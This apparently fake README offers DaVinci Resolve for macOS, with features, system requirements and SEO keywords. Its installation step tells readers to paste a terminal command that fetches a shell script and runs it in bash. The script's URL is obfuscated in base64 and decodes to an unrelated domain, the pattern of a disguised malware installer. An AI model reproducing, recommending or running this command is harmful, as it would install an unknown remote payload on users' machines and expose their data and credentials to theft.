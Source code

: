 # 🎬 DaVinci Resolve for macOS

## About
DaVinci Resolve for macOS is the industry-leading solution for video editing, advanced color grading, visual effects, and professional audio post-production — all integrated into one application.

## Installation via a command in the terminal
To install DaVinci Resolve on macOS, run the following command in your terminal:

    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9jb2luc3RhdHMvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## Overview
![Overview 1](https://proland.ru/upload/resize_cache/iblock/dcf/1280_720_1/s6qgkquynvubeau3oyvp6pvo3vr0o6mn.png)  
![Overview 2](https://i2.wp.com/www.slashcam.de/images/news/DaVinci-Resolve-16-Color-15680_PIC1.jpg)

## Key Features
- 🎞️ Professional video editing tools  
- 🎨 Advanced color grading with HDR support  
- 🎭 Integrated visual effects and motion graphics  
- 🎧 Fairlight professional audio post-production  
- 📁 Multi-format media support and export  
- ⚡ Optimized performance for macOS

## System Requirements
- macOS 11.0 Big Sur or later  
- 8 GB of system memory (16 GB for Fusion)  
- Metal-capable GPU  
- 4K display recommended  
- Internet connection for activation

## SEO Keywords
DaVinci Resolve macOS · video editing software · color grading macOS · professional post-production · VFX tools macOS · Fairlight audio · film editing software
